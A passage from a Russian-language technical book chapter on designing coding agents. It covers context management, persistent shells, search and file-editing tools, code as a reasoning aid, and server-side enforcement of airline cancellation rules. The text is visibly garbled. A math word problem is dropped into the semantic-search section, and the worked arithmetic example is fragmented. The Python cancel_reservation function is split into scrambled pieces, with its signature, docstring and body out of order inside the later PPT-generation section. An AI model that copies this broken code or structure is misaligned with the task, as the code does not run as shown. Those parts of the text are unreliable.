Другая сторона параллельного выполнения — обработка сбоев. Каждое определение инструмента должно декларировать, поддерживает ли он конкурентное выполнение (по умолчанию — нет, fail-safe); при сбое одного из вызовов механизм каскадной остановки прекращает другие вызовы из той же параллельной группы, которые зависят от этого результата, но не затрагивает независимые вызовы и родительские операции — это и есть конкретная реализация принципа «контроля границ сбоев» с точки зрения Harness (обвязки), упомянутого в предыдущем разделе.

**Прецизионное управление контекстом.**

Фундаментальный вызов для Coding Agent заключается в том, что кодовые базы обычно огромны, а Context Window (контекстное окно) модели ограничено. Даже если современные модели заявляют поддержку миллионов токенов, запихивать всю кодовую базу в контекст неэкономично и нецелесообразно. Интеллектуальное управление контекстом должно разворачиваться на нескольких уровнях.

На уровне чтения файлов Agent не должен всегда читать файл целиком. Для больших файлов инструменты должны поддерживать чтение определенных фрагментов по диапазону номеров строк — например, читать только со 100-й по 150-ю строку, а не загружать файл в несколько тысяч строк. Что еще важнее, при возврате содержимого следует добавлять маркировку номеров строк — каждая строка кода предваряется ее фактическим номером. Этот, казалось бы, простой дизайн приносит огромную пользу: модель может точно ссылаться на «42-ю строку в `src/main.py`», что уменьшает двусмысленность и делает последующие операции редактирования более надежными.

На уровне выполнения команд обработка вывода терминала также требует осторожности. Компиляция или тестирование могут генерировать тысячи строк вывода, и если полностью внедрить их в контекст, это быстро исчерпает бюджет. Здесь широко применяются механизмы отсечения и персистенции длинного вывода, описанные в четвертой главе: сохраняются первые несколько строк (обычно содержащие контекст ошибки) и последние несколько строк (обычно содержащие резюме ошибки), середина заменяется строкой-заполнителем с пояснением, что полный вывод сохранен во временный файл и доступен для просмотра по запросу.

**Динамическое внедрение информации об окружении.**

Это концентрированное воплощение технологии Agent Status Bar (строка состояния агента), представленной во второй главе, в рамках Coding Agent. В отличие от универсальных Agent, Coding Agent сильно зависит от состояния среды выполнения. Перед каждой итерацией рассуждений в конец контекста в формате Agent Status Bar должна внедряться следующая ключевая информация об окружении:

- **Текущий рабочий каталог**: чтобы гарантировать отсутствие ошибок в ссылках на пути.
- **Ветка git**: понимание того, ведется ли работа в основной ветке или в ветке функционала (feature branch).
- **Последние записи в логе коммитов**: для понимания контекста эволюции проекта.
- **Обзор неиндексированных (unstaged) и индексированных (staged) изменений**: четкое понимание того, какие правки уже внесены.

Эта информация не должна быть жестко закодирована в статическом системном промпте — это нарушило бы эффективность KV Cache. Вместо этого она должна генерироваться в реальном времени и внедряться как динамический, дополняемый Agent Status Bar. Таким образом Agent обретает способность «восприятия окружения» (environment awareness), и каждое его решение базируется на точном понимании текущего состояния, а не на устаревших предположениях.

**Персистенция состояния среды выполнения команд.**

При взаимодействии с кодом многие операции зависят от состояния среды: смена каталога, активация виртуального окружения, установка переменных окружения, запуск фоновых сервисов. Если каждая команда выполняется в новой оболочке (shell), все эти состояния будут потеряны: только Agent перешел в каталог проекта с помощью `cd`, как следующая команда снова возвращает его в корневой каталог, заставляя повторять те же настройки. Что еще хуже, эффект некоторых действий (например, активация виртуального окружения Python) сохраняется только в текущей сессии shell и не может быть передан между сессиями.

Поэтому необходимо поддерживать персистентную терминальную сессию, которая создается при запуске Agent и остается активной на протяжении всего процесса взаимодействия. Каждая команда выполняется в этом общем терминале, сохраняя рабочий каталог, переменные окружения и состояние сессии. Такой дизайн больше соответствует привычкам разработчиков-людей — мы обычно работаем в одном долгоживущем окне терминала. Разумеется, Agent должен сохранять возможность запуска изолированных терминалов для поддержки параллельных задач, но персистентная сессия должна быть режимом по умолчанию.

**Механизм мгновенной обратной связи по синтаксису.**

Это еще раз подчеркивает ценность технологии Agent Status Bar. После изменения кода Agent не должен ждать, пока пользователь явно запросит тестирование, чтобы проверить синтаксис. Более эффективный подход: как только операция записи файла завершена, инструментальный слой автоматически запускает соответствующий linter (линтер) или средство проверки синтаксиса, представляя результат проверки Agent как часть возвращаемого значения инструмента. Если обнаружена синтаксическая ошибка, Agent на следующем этапе рассуждений сразу видит подробную информацию о ней — точно так же, как программист, допустивший ошибку в скобках в IDE, сразу видит «красное подчеркивание» редактора. Такой механизм мгновенной обратной связи значительно снижает стоимость исправления ошибок, так как Agent может внести правки в момент их возникновения, не дожидаясь запуска тестов.

Эти пять приемов реализации — параллелизм и стриминг, управление контекстом, восприятие окружения, персистенция состояния и мгновенная обратная связь — вместе составляют технический фундамент эффективного Coding Agent. Это не изолированные точки оптимизации, а взаимодополняющие проектные решения, направленные на одну цель: позволить Agent работать так же плавно, как опытный разработчик.

### Инструменты поиска в Coding Agent

Локализация релевантного кода в огромной кодовой базе — это отправная точка работы Coding Agent. Рисунок 5-3 сравнивает несколько типов взаимодополняющих инструментов поиска, показывая, как зрелый Coding Agent должен выбирать метод поиска в зависимости от характера задачи.

**Сопоставление содержимого по регулярным выражениям** (grep/ripgrep): самый традиционный способ поиска, построчное сканирование содержимого файлов для поиска совпадений с паттерном. Когда Agent знает конкретный текст для поиска (имя функции, название переменной, сообщение об ошибке), он может быстро и точно локализовать все места его вхождения. Мощная выразительная способность регулярных выражений (Regular Expressions — синтаксис, использующий специальные символы для описания текстовых паттернов, например, `def handle.*` для поиска всех определений функций, начинающихся с `handle`) позволяет улавливать сложные структуры, ведя поиск не только по литеральному тексту, но и по фрагментам кода определенной структуры. В реальной практике также должна поддерживаться фильтрация по типам файлов (например, только файлы Python) и по паттернам путей (исключение каталогов с тестами) для уменьшения шума. Фундаментальное ограничение заключается в том, что поиск ведется только по текстовым совпадениям без понимания семантики: при поиске «пользовательская аутентификация» невозможно найти функцию, которая обрабатывает логику входа, но не содержит в названии слова «аутентификация».

**Сопоставление имен файлов по паттернам** (glob): поиск файлов, соответствующих паттерну, в структуре путей файловой системы без анализа содержимого. Например, `**/*.test.ts` рекурсивно находит все файлы тестов TypeScript, а `src/components/**/Button.tsx` ищет Button.tsx на любой глубине внутри каталога components. Скорость такого поиска намного выше, чем у контентного поиска (не нужно открывать и читать файлы), и это первый шаг Agent в исследовании структуры проекта — через быстрое сканирование всей файловой системы выстраивается каркас организации проекта.

**Семантический поиск кода**: в отличие от двух предыдущих методов точного соответствия, этот метод пытается понять «значение» запроса и кода. Для этого необходимо решить две ключевые проблемы:

- **Hybrid Search** (смешанный поиск; в третьей главе этот технологический стек описан подробно): Vector Embedding (векторные эмбеддинги, или плотные эмбеддинги) хорошо справляются с поиском кода, который семантически схож, но использует другие слова (например, поиск «проверка личности пользователя» может найти функцию с именем `check_credentials`), а ключевые слова (BM25 — классический алгоритм поиска, основанный на частоте слов и длине документа) подходят для точного сопоставления имен функций и переменных. Оба метода выполняются параллельно, после чего результаты объединяются и упорядочиваются с помощью модели переранжирования (Reranker — Cross-Encoder для тонкой сортировки кандидатов по релевантности), дополняя друг друга.


Вопрос: «В классе 40 учеников, из которых 60% выбрали математику, 45% выбрали физику, а 25% выбрали оба предмета. Сколько человек выбрали только физику без математики?»

Семантический поиск особенно полезен для исследовательских задач, таких как поиск кода, связанного с «взаимодействием с базой данных» или «обработкой валидации пользовательского ввода», в незнакомой кодовой базе.

Однако в индустрии существуют явные разногласия по поводу того, стоит ли создавать индекс эмбеддингов для семантического поиска. Терминальные Agent (агенты), представленные Claude Code, намеренно **не создают индекс эмбеддингов**, полагаясь исключительно на Agentic-подход с использованием `grep` + `glob` для поиска по месту. Это позволяет избежать необходимости поддерживать индекс, который постоянно устаревает по мере эволюции кода, экономит ресурсы на инфраструктуру индексирования и исключает риск отправки эмбеддингов кода сторонним сервисам. Инструменты типа IDE, такие как Cursor, идут по противоположному пути: они готовы платить за создание индекса ради **семантического извлечения между файлами** (Cross-file Semantic Retrieval), полагаясь на него для быстрого поиска фрагментов в крупных кодовых базах, которые семантически связаны, но используют разные термины. Выбор между этими двумя путями, по сути, является балансом между «ценой инфраструктуры и передачи данных» и «выгодой от семантического извлечения между файлами».

**Поиск определений и ссылок на уровне символов**: Основанные на возможностях IDE функции «перейти к определению» и «найти все ссылки» (LSP, то есть Language Server Protocol (протокол языкового сервера) — стандартный протокол для взаимодействия редактора с движком анализа языка) позволяют различать определение и вызов одноименных символов. Например, он знает, что `authenticate` в строке 42 — это определение функции, а в строке 189 — вызов, в то время как текстовый поиск просто найдет все строки, содержащие эту строку. Это критически важно для рефакторинга кода: при переименовании функции нельзя полагаться только на текстовый поиск (имя функции может появиться в комментариях или строках), необходимо использовать поиск символов для точного определения места декларации и всех реальных точек вызова.

Эти четыре способа поиска составляют взаимодополняющий набор инструментов и на практике часто используются в комбинации: сначала семантический поиск находит нужный модуль, затем сопоставление по регулярным выражениям точно определяет конкретную строку кода, и, наконец, поиск символов отслеживает цепочку вызовов — прогрессивная стратегия «от общего к частному, от семантики к синтаксису».

### Инструменты редактирования файлов в Coding Agent

Сложность редактирования файлов заключается не в самой операции, а в том, как заставить LLM эффективно и надежно сообщать системе, «где и что менять». На рисунке 5-4 сравниваются пять схем редактирования файлов, демонстрирующих фундаментальное противоречие между выразительностью человеческого языка и точностью машинного исполнения.

**Описание различий + Apply Model**: Модель не указывает напрямую, как редактировать файл, а генерирует описание изменений — это может быть текст различий, похожий на git diff (формат вывода команды `git diff`, показывающий, «какие строки удалены, какие добавлены»), или скелет кода с пропусками (использование комментариев типа «здесь без изменений» для пропуска немодифицированных частей). Это описание затем передается специализированной «модели применения» (Apply Model) — обычно другой, более компактной и быстрой LLM, которая отвечает за слияние с исходным файлом и выдачу полного нового файла. Такое разделение ответственности позволяет основной модели сосредоточиться на высокоуровневой логике кода, а модели применения — на низкоуровневых операциях с текстом. Хрупкость наивной реализации заключается в этапе слияния: когда описание изменений незначительно отличается от реального кода в файле, нужно определить, является ли это тем же местом; при наличии нескольких похожих фрагментов кода возможно ошибочное слияние не в том месте. Cursor — типичный представитель этой эволюционирующей ветки: основная модель выдает скелет кода с пропусками, а специально обученная маленькая модель fast-apply переписывает файл целиком, используя Speculative Decoding (спекулятивное декодирование, использующее содержимое исходного файла как черновик для параллельной верификации), что позволяет достичь скорости слияния более тысячи токенов в секунду — надежность и скорость в этом подходе покупаются инженерными вложениями.

**От старой строки к новой** (Old String → New String): Схема, принятая в Claude Code. Модель предоставляет `old_string` (оригинальный текст для замены) и `new_string` (новый текст для замены), а Harness (обвязка) выполняет простой поиск и замену строк. Преимущество заключается в предсказуемости и прозрачности: если `old_string` существует в файле и уникальна, операция успешна, в противном случае — неудача, без двусмысленностей. Цена этого — необходимость выводить весь исходный контент при удалении больших блоков кода; отклонение в один символ приведет к ошибке сопоставления. Если один и тот же код встречается несколько раз, необходимо предоставить более широкий контекст для устранения неоднозначности.

**Локализация по номерам строк** (Old Line Numbers → New String): Модель указывает: «удалить строки с X по Y, вставить новый контент». Номера строк точны и недвусмысленны, для удаления большого блока достаточно двух чисел. Однако модели легко ошибаются при «подсчете» номеров строк, особенно если файл длинный. На практике это обычно смягчается добавлением номеров строк к каждой строке при чтении файла, но после каждого редактирования последующие номера строк меняются, что ограничивает возможность параллельного внесения нескольких правок.

Чисто естественно-языковое рассуждение (склонно к ошибкам):

**Vim-подобные команды редактирования**: заимствуют систему команд редактора Vim, поддерживая богатый набор операций, таких как копирование, вырезание и вставка. Это крайне эффективно для рефакторинга кода (перемещения функций из одного места в другое). Однако нагрузка на изучение синтаксиса команд значительна: самые мощные модели справляются с ними хорошо, но у моделей поменьше частота ошибок заметно возрастает.

**Сопоставление начала и конца строки** (Old String Start + End → New String): это можно рассматривать как улучшенную схему замены старой строки. Модели не нужно выводить полный `old string`, достаточно предоставить первые и последние несколько строк удаляемого контента, пропуская середину. Фреймворк находит область замены, сопоставляя это начало и конец; если комбинация «начала и конца» уникальна в файле, позиционирование будет точным. Данная схема сочетает в себе надежность текстовой замены и эффективность схем с номерами строк — при удалении больших блоков кода не требуется выводить сотни строк оригинального кода, достаточно показать границы. В то же время, поскольку метод по-прежнему основан на сопоставлении контента, а не на абстрактных номерах строк, риск ошибки модели относительно низок.

**Практические рекомендации**. В целом, ведущие Coding Agent (агенты для написания кода) представляют два разных пути: Claude Code использует схему «от старой строки к новой» — приоритет надежности, простота реализации, отсутствие необходимости в дополнительных моделях; Cursor же довел путь Apply Model (модель применения) до предела — за счет инвестиций в обучение и инференс специализированной модели `fast-apply` достигается более высокая пропускная способность редактирования. Для создания собственного Agent схема «от старой строки к новой» является самой надежной отправной точкой; при обработке масштабных изменений «сопоставление начала и конца строки» — более экономичный компромисс; схема с номерами строк надежна только в сценариях глубокой интеграции с IDE (когда редактор в реальном времени поддерживает маппинг номеров строк и может немедленно предоставить их модели после каждого редактирования), иначе она легко теряет актуальность из-за дрейфа строк.

## Код: мета-способность универсального Agent

Предыдущая часть продемонстрировала, как построить надежный Coding Agent — от проектирования архитектуры до реализации инструментов и Harness (обвязки). Но ценность генерации кода выходит далеко за рамки написания программ.

> **Что такое «мета-способность»?** Обычная способность — это когда Agent может сделать что-то конкретное: ответить на вопрос, вызвать определенный API, сгенерировать текст. **Мета-способность** (meta-capability) — это способность «создавать другие способности»: Agent использует ее, чтобы на месте написать новые инструменты, ограничения и формы выражения для выполнения задачи, вместо того чтобы иметь все заранее предустановленные функции. Генерация кода — это именно такая мета-способность: она точна, исполняема и компонуема. Поэтому она позволяет создавать как новые инструменты (скрипты, последовательности вызовов API), так и новые ограничения (assertions (утверждения), правила валидации), а также новые формы представления (HTML-формы, PPT, видеокадры).

Именно поэтому роль кода в системе Agent гораздо шире, чем просто «написание программ». В следующих шести разделах показаны шесть направлений применения этой мета-способности вне программирования: (1) инструмент мышления — использование кода вместо естественного языка для строгих рассуждений; (2) ограничение бизнес-правил — закрепление политик в коде во избежание галлюцинаций модели; (3) мультимедийная генерация — создание PPT/видео/визуализаций с помощью кода; (4) системный адаптер — соединение гетерогенных API через код; (5) Generative UI (генеративный пользовательский интерфейс) — динамическая генерация форм и интерфейсов; (6) самозагрузка (self-bootstrapping) — создание новых Agent с помощью кода.

Эти шесть направлений не просто перечислены параллельно, а организованы по принципу «от объекта воздействия мета-способности» изнутри наружу:

1. **Само мышление** — замена подверженных ошибкам рассуждений на естественном языке кодом (инструмент мышления);
2. **Бизнес-правила** — кодирование размытых политик в исполняемые ограничения (ограничение бизнес-правил);
3. **Представление контента** — генерация PPT, видео и результатов визуализации (мультимедийная генерация);
4. **Системные интерфейсы** — связывание гетерогенных API, автоматическая адаптация к эволюции форматов данных (системный адаптер);
5. **Пользовательский интерфейс** — динамическое конструирование форм и интерактивных интерфейсов (Generative UI);
6. **Сам Agent** — создание новых Agent с помощью кода, формирующее самозагрузку (в отличие от «самоэволюции» без изменения весов в восьмой главе).

Чтение по этой линии «изнутри наружу и, в конечном итоге, возвращение к самому себе» позволяет четче увидеть единую ценность кода как мета-способности. Создание новых инструментов по требованию является дальнейшим расширением этой способности, о чем будет подробно рассказано в восьмой главе.

### Код как инструмент мышления

LLM демонстрируют поразительные результаты в понимании и генерации естественного языка, но имеют фундаментальные недостатки в точных вычислениях, операциях с символами или строгих логических выводах. Причина в том, что мышление модели по своей сути вероятностно и аппроксимативно, в то время как математические и логические задачи требуют детерминированных и точных ответов. Проиллюстрируем это конкретным сравнением:

Пусть LLM отвечает за понимание проблемы и написание кода, а интерпретатор кода — за точные вычисления. Такое разделение труда позволяет каждому заниматься своим делом.

```
«60% выбрали математику = 24 человека,
 45% выбрали физику = 18 человек,  25% выбрали оба = 10 человек,

 Только физику = 24 - 10 = 14 человек» → Ошибка: вычитание произведено из числа выбравших математику, ответ неверный.
Программное рассуждение (точное и проверяемое):
```python math = int(40 * 0.60)    # 24 phys = int(40 * 0.45)    # 18
both = int(40 * 0.25)    # 10 only_phys = phys - both  # 8
print(only_phys)         # 8 ✓ ```  ```python
    expected_cabin_class: str = None,    # Опционально: для самопроверки модели, сервер сверяет с истинным значением в БД
```

Основатель Mathematica Stephen Wolfram предложил на этот счет глубокое понимание. До появления LLM уже существовал класс систем, способных выполнять точные математические вычисления — они работали по принципу **Symbolic Computation** (символьные вычисления), то есть обрабатывали выражения с помощью математических символов, а не приближенных числовых значений. Например, обычный калькулятор вычислит $\sqrt{2}$ как 1.414, но система символьных вычислений сохранит точную форму $\sqrt{2}$ и преобразует ее в десятичную дробь только при необходимости. Созданная Стивеном Вольфрамом система Wolfram Alpha является именно такой: пользователь вводит математическую задачу, а она возвращает точный ответ. Однако ее понимание естественного языка было довольно хрупким, а охват — узким: она полагалась на набор встроенных синтаксических анализаторов и могла распознавать лишь ограниченное число формулировок. Стоило немного изменить вопрос, и парсинг мог завершиться неудачей; более того, она не могла справляться с многошаговыми рассуждениями в открытых доменах. LLM как раз восполнила этот пробел — она мастерски понимает различные выражения на естественном языке, но не сильна в точных вычислениях. Новая модель взаимодействия такова: LLM отвечает за понимание вопроса пользователя на естественном языке, распознает в нем математическую или логическую структуру и переводит ее на формальный язык (например, язык Mathematica или библиотеку SymPy для Python); затем передает это специализированному движку символьных вычислений или решателю ограничений (constraint solver) для исполнения и получения точного результата.

> **Эксперимент 5-1 ★★: Использование инструментов генерации кода для повышения навыков решения математических задач**
>
> **Цель эксперимента**: Проверить рост точности Agent (агент) при использовании Code Interpreter для помощи в математическом мышлении.
>
> **Техническое решение**: Оснастить Agent песочницей Python с установленными математическими библиотеками, такими как `sympy`, `numpy`, `scipy`. Когда Agent сталкивается с математической задачей, он формализует ее в виде кода Python: `sympy` выполняет символьные вычисления (математический анализ, решение уравнений), `scipy` — численную оптимизацию, `numpy` — матричные операции. Сгенерированный код выполняется в песочнице, возвращая точный результат.
>
> **Критерии приемки**: Использование задач в стиле AIME (на базе Американского математического пригласительного экзамена) для оценки. Сравнение точности при использовании только Chain-of-Thought (цепочка рассуждений) и при поддержке кода; точность в режиме с кодом должна быть значительно выше. Проверка корректности использования математических библиотек в коде и логической ясности процесса решения.
>

> **Эксперимент 5-2 ★★: Использование инструментов генерации кода для повышения навыков логического мышления**
>
> **Цель эксперимента**: Оценить способность Agent помогать логическому мышлению через код решения ограничений.
>
> **Техническое решение**: Оснастить Agent инструментом Code Interpreter, включающим библиотеку `python-constraint`. Agent переводит логические головоломки (например, задачу о рыцарях и лжецах) в формальные определения ограничений: идентифицирует все переменные (личность каждого островитянина), условия ограничений (выводы вроде «рыцарь говорит правду» и т. д.), определяет ограничения и вызывает решатель для поиска решения, удовлетворяющего всем условиям.
>
> **Критерии приемки**: Оценка с использованием [датасета K&K Puzzle](https://huggingface.co/datasets/K-and-K/perturbed-knights-and-knaves); точность решения в режиме с поддержкой кода должна достигать 90% и выше, что значительно превосходит режим чистого мышления.
>

Этот эксперимент также раскрывает более общую закономерность: между моделью и Harness (обвязка) существует обратно пропорциональная зависимость. Когда модель достаточно сильна, Harness может быть тоньше — модель сама способна выстроить правильную логику, и выигрыш от использования программного решателя сокращается. Когда модель недостаточно сильна, приходится делать в Harness больше — передавать ключевые логические рассуждения коду и решателям ограничений, чтобы гарантировать корректность. Именно поэтому в данном эксперименте намеренно выбрана более слабая модель, чтобы усилить контраст: на слабой модели режим чистого мышления будет часто ошибаться в расчетах, а помощь кода позволит значительно поднять точность; если же перейти на достаточно сильную модель рассуждений, чистое мышление часто сможет решить все головоломки, и профит от помощи кода сойдется почти к нулю. Таким образом, то, насколько «толстым» должен быть Harness, зависит от границ возможностей имеющейся у вас модели — это условие часто игнорируется при оценке технологий Agent: один и тот же Harness в сочетании с моделями разного уровня может привести к совершенно разным выводам.

### Код как ограничение бизнес-правил

Этот раздел является прямым ответом на предыдущую инженерную практику Harness. Одним из ключевых принципов Harness является «Ограничения: кодирование, а не документирование» — преобразование правил из документов на естественном языке в исполняемый код, что делает их принудительным ограничением поведения системы, а не просто рекомендацией. Генерация кода позволяет Agent самостоятельно завершить этот процесс трансформации.

Бизнес-правила, рабочие процессы и логика принятия решений, описанные только на естественном языке, часто полны двусмысленностей. Что такое «обоснованный запрос на возврат»? Что считается «чрезвычайной ситуацией»? Границы этих понятий трудно определить в естественном языке — фраза «возврат возможен в течение 7 дней после покупки» кажется ясной, но «7 дней» — это календарные или рабочие дни? «Покупка» — это время размещения заказа или время отгрузки? В отличие от этого, код предоставляет недвусмысленный, исполняемый способ выражения знаний — он либо успешно запускается, либо выдает ошибку, исключая неопределенность.

**Точное выражение сложных бизнес-правил.**

**Правила на естественном языке vs Кодифицированные правила: взаимодополнение, а не замена**

Преимущества написания правил в системном промпте: модель может **разъяснять политику** пользователю на основе правил; может **искать альтернативные варианты** согласно правилам (например, «перебронирование вместо отмены»); может предварительно оценивать осуществимость перед Tool Calling (вызов инструментов).

Преимущества кодирования правил в инструменты проверки: **точность и однозначность** логики кода — отсутствие «искажений в понимании»; **детерминированность** исполнения кода — одинаковые входные данные всегда дают одинаковый результат; особая пригодность для **сложных комбинаций правил** — булевых комбинаций множества условий, вычисления времени и проверки данных из разных источников.

На практике их следует использовать в связке: System Prompt (системный промпт) содержит правила на естественном языке для понимания и коммуникации, а в критических точках принятия решений устанавливаются кодированные инструменты проверки в качестве «вратарей» для обеспечения комплаенса.

Истинная ценность кодированных правил заключается не в оптимизации эффективности использования токенов, а в **предотвращении необратимых ошибочных действий** — отмены заказов, перевода денежных средств, удаления данных; эти операции невозможно отменить после выполнения. Кодированная проверка устанавливает последний рубеж обороны перед выполнением операции, и ценность такой гарантии безопасности намного превышает затраты на ее реализацию.

**Объединение проверки и выполнения: checklist направляет мышление, проверка истинности стоит на страже**

Вместо проектирования независимых инструментов проверки лучше позволить инструменту исполнения сначала проводить внутреннюю проверку. Рассмотрим в качестве примера политику отмены бронирования авиакомпании из τ-bench (tau-bench — бенчмарк, имитирующий сценарии авиаперевозок и обслуживания в электронной коммерции, специально предназначенный для оценки способностей Agent (агент) к Tool Calling (вызов инструментов) и соблюдению политик):

Ценность этого дизайна следует рассматривать на двух уровнях.

**Первый уровень: параметры как checklist (контрольный список) для размышлений**. В описании инструмента приведена полная политика отмены и содержится требование к модели «перед вызовом сначала запросить детали заказа и сверить их по пунктам»; необязательные параметры `expected_*` дополнительно побуждают модель явно прописывать основания для своих суждений. Чтобы заполнить эти параметры, модель должна сначала вызвать инструмент запроса для получения деталей заказа и поочередно подтвердить каждое условие — процесс заполнения параметров по своей сути является **обязательным checklist**. Когда модель обнаружит, что класс обслуживания — эконом и страховка не приобретена, она, скорее всего, заметит правило 5 еще в процессе подготовки к вызову и **вовсе не инициирует вызов**, а напрямую скажет пользователю: «Отмена невозможна для эконом-класса без страховки, рассмотрите возможность покупки страховки перед отменой или переоформление билета». Ценность этого уровня заключается в направлении хода мыслей и сокращении неэффективных вызовов; однако он не несет ответственности за безопасность — параметры `expected_*` являются лишь самодекларацией модели, и серверная часть никогда не принимает их за истину.

**Второй уровень: серверная проверка истинных значений (ground truth) — настоящий «вратарь»**. Обратите внимание на ключевой дизайн в коде: класс обслуживания, статус страховки, время бронирования, использование сегментов перелета и статус рейса — всё это получается серверной частью путем запроса к базе данных; текущее время берется из серверных часов. **Ни один факт политики не берется из параметров, сообщаемых моделью**. Это не излишняя осторожность: модель может галлюцинировать или подвергнуться Prompt Injection (промпт-инъекция) — как было проанализировано ранее в разделе о «трех фатальных факторах», агенту в одном и том же контексте трудно доказать собственную «чистоту». Если спроектировать `cabin_class`, `has_insurance` или даже `current_time` как параметры, заполняемые моделью, то стоит модели ошибиться (или быть спровоцированной на ошибку) в одном значении, и «вратарь» станет фикцией. Последний рубеж обороны должен строиться на данных, которые модель не может сфальсифицировать — это перекликается с изложенной ранее позицией о том, что «критические операции требуют независимой верификации»: независимость означает не только отдельную модель, но и независимый источник данных.

Таким образом, тройная гарантия становится полной: (1) правила на естественном языке в системном промпте помогают в понимании и объяснении; (2) описание инструментов и дизайн параметров служат в качестве checklist, направляя модель на явную сверку условий перед вызовом; (3) кодированная проверка на стороне сервера на основе истинных значений из базы данных выступает в роли последнего вратаря. Первые два уровня снижают вероятность возникновения ошибок, а третий гарантирует, что ошибка не превратится в необратимые потери.

> **Эксперимент 5-3 ★★: Малые модели повышают точность исполнения правил через кодированные знания**
>
> **Цель эксперимента**: Проверить, что модели с малым количеством параметров (Qwen3-4B) значительно повышают точность и последовательность выполнения сложных политик за счет кодирования бизнес-правил.
>
> **Техническое решение**: Проектирование контрольного эксперимента на основе сценария авиационного обслуживания τ-bench. **Контрольная группа**: правила только на естественном языке, опора на собственные рассуждения модели. **Экспериментальная группа**: тройная гарантия — системный промпт сохраняет правила на естественном языке; описание инструментов перечисляет полную политику и через необязательные параметры `expected_*` направляет модель на пошаговую сверку перед вызовом (checklist); внутренняя кодированная проверка инструмента на основе имитации истинных значений базы данных (факты политики всегда запрашиваются из базы, время берется по серверным часам, параметры, сообщаемые моделью, не принимаются на веру). Метрики оценки: процент успеха задачи, количество нарушений политики, количество неэффективных вызовов инструментов, пользовательский опыт.
>
> **Ожидаемые результаты**: Экспериментальная группа значительно превосходит контрольную. Что еще более важно, наблюдается, как модель при подготовке параметров самостоятельно идентифицирует нарушения и напрямую предлагает пользователю альтернативные варианты, подтверждая эффективность «параметров как checklist»; одновременно фиксируется доля несовпадений самодекларируемых значений `expected_*` с истинными значениями из базы данных, доказывая необходимость «серверной проверки истинности» для перехвата ошибочных когниций.

### Генерация мультимедиа на основе кода

Создание многих сложных документов по своей сути является организацией и представлением структурированных данных. Будь то презентации, технические отчеты или интерактивные приложения, нижний уровень определяется кодом: HTML описывает структуру, CSS управляет стилем, JavaScript реализует интерактивность. Традиционное создание документов опирается на принцип WYSIWYG («что видишь, то и получишь») в GUI-интерфейсах, но для агента это не является ни интуитивно понятным, ни эффективным, так как операции в GUI требуют визуального понимания и точного позиционирования координат. Через генерацию кода агент обходит проблему визуального позиционирования и получает возможность точного управления документом — положение, стиль и содержание каждого элемента четко определены и могут быть изменены и оптимизированы программным способом.

**Agent для генерации PPT.**

```python
def cancel_reservation(
    reservation_id: str,
    cancellation_reason: str,        # "change_of_plan", "airline_cancelled", "other"
    expected_has_insurance: bool = None  # Опционально: для самопроверки модели, аналогично вышеуказанному
```  Отмена бронирования авиабилета.
) -> dict:
    """
Правила отмены (принудительно исполняются на стороне сервера на основе истинных данных из БД):

- Правило 1: Заказы, в которых использован любой сегмент перелета, не подлежат отмене.
- Правило 2: В течение 24 часов после бронирования возможна безусловная отмена.
- Правило 3: Рейсы, отмененные авиакомпанией, всегда подлежат отмене.
- Правило 4: Бизнес-класс всегда подлежит отмене.
- Правило 5: Базовый эконом и эконом-класс подлежат отмене только при наличии приобретенной туристической страховки.
Перед вызовом сначала запросите детали заказа и проверьте каждое из вышеперечисленных правил; параметры `expected_*` используются для изложения оснований вашего суждения и предназначены только для сопоставления и аудита на стороне сервера, они не влияют на принятие решения по правилам.

```python     # Все факты по правилам в обязательном порядке считываются из БД, данные от модели никогда не принимаются на веру
    now = server_clock.now()  # Серверное время, а не предоставленное моделью
    """
    # При несовпадении заявленного моделью значения с истинным фиксируется предупреждение для обнаружения когнитивных ошибок модели или потенциальных инъекций
    r = db.get_reservation(reservation_id)
```





```python
    if expected_cabin_class is not None and expected_cabin_class != r.cabin_class:
        log_mismatch(reservation_id, "cabin_class", expected_cabin_class, r.cabin_class)
    if expected_has_insurance is not None and expected_has_insurance != r.has_insurance:
        log_mismatch(reservation_id, "has_insurance", expected_has_insurance, r.has_insurance)

    if r.any_segment_used:
        return {"success": False, "reason": "Cannot cancel with used segments"}

    hours_since_booking = (now - r.booking_time).total_seconds() / 3600
    if hours_since_booking <= 24:
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Cancelled within 24-hour window"}

    if r.flight_status == "cancelled_by_airline":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Airline cancelled flight"}

    if r.cabin_class == "business":
        execute_cancellation(reservation_id)
        return {"success": True, "reason": "Business class cancellation"}

    if r.cabin_class in ["basic_economy", "economy"]:
        if r.has_insurance:
            execute_cancellation(reservation_id)
            return {"success": True, "reason": f"{r.cabin_class} with insurance"}
        return {"success": False, "reason": f"{r.cabin_class} requires insurance"}

    return {"success": False, "reason": "Does not meet cancellation policy"}
```

Создание PPT часто требует много времени и сил. Типичный PPT для академического доклада может содержать десятки слайдов, каждый из которых требует тщательной проработки макета, выделения ключевых моментов и подбора диаграмм. Если переосмыслить создание PPT как задачу Code Generation (генерация кода), сложность можно значительно снизить. Современные PPT-фреймворки (например, Slidev) используют элегантную философию дизайна: определение содержания презентации с помощью Markdown и HTML. Для создания страницы слайда достаточно написать лаконичный язык разметки, а фреймворк автоматически берет на себя рендеринг, компоновку и анимацию. Это крайне удобно для Agent (агент), обладающего способностями к генерации кода.

Однако одной лишь способности генерировать код недостаточно. **После написания кода Agent не знает реального эффекта рендеринга**: не слишком ли плотно расположено содержимое, не выходит ли текст за границы, подходит ли размер изображений — все это можно обнаружить только после фактической визуализации. Поэтому необходимо внедрить механизм **Proposer-Reviewer** (типировщик-рецензент, как показано на рис. 5-5), который разделяет написание кода и проверку качества на два независимых Agent:

- **Proposer Agent** отвечает за генерацию кода Slidev, понимает логическую структуру контента и разбивает его на логически обоснованные страницы.
- **Reviewer Agent** запускает код для рендеринга каждой страницы в изображение и использует Vision LLM (мультимодальная большая языковая модель, способная «видеть» изображения) для анализа результата рендеринга с точки зрения плотности контента, читаемости, рациональности макета и визуальной эстетики. Он формирует **структурированные предложения по улучшению** — не расплывчатое «некрасиво», а конкретные исполнимые инструкции (например, «Стр. 3: слишком много контента, рекомендуется разделить», «Стр. 7: шрифт блока кода слишком мал, рекомендуется увеличить до 14pt»), содержащие номер страницы, тип проблемы, степень серьезности и другие поля.

Proposer получает обратную связь, понимает намерение и вносит изменения в код, после чего новая версия снова отправляется на проверку Reviewer. Итерации продолжаются до тех пор, пока качество не будет соответствовать стандарту или не будет достигнуто максимальное количество попыток (например, 5 раундов).

